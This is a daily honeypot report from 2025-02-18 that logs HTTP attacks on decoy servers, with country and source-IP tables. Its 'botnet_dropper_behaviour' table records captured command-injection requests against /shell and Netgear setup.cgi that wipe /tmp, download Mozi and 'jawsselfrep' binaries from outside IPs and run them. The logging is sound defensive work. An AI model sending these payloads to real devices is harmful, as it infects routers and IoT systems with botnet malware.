 ```yaml
---
title: "Report: 2025-02-18 "
date: 2025-02-18
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-18
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| .6               | Germany            |
| US               | Dubai              |
| FR               | Australia          |
| FR               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                     |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 218.102.88.28  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsselfrep;chmod+777+/tmp/jawsselfrep;sh+/tmp/jaws.selfrep HTTP/1.1                                                       |
| 41.250.138.140 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 107.189.31.150/jawsselfrep;chmod+777+/tmp/jawsselfrep;sh+/tmp/jaws.selfrep HTTP/1.1                                                       |
| 122.97.214.157 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://102.33.45.13:34866/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   108 | 193.41.206.98   |
|   1 |                    78 | 193.41.206.202  |
|   2 |                    58 | 92.255.57.58    |
|   3 |                    58 | 193.68.89.10    |
|   4 |                    52 | 78.153.140.179  |
|   5 |                    51 | 78.153.140.151  |
|   6 |                    45 | 196.241.66.194  |
|   7 |                    45 | 129.146.67.131  |
|   8 |                    45 | 75.119.138.110  |
|   9 |                    44 | 195.178.110.163 |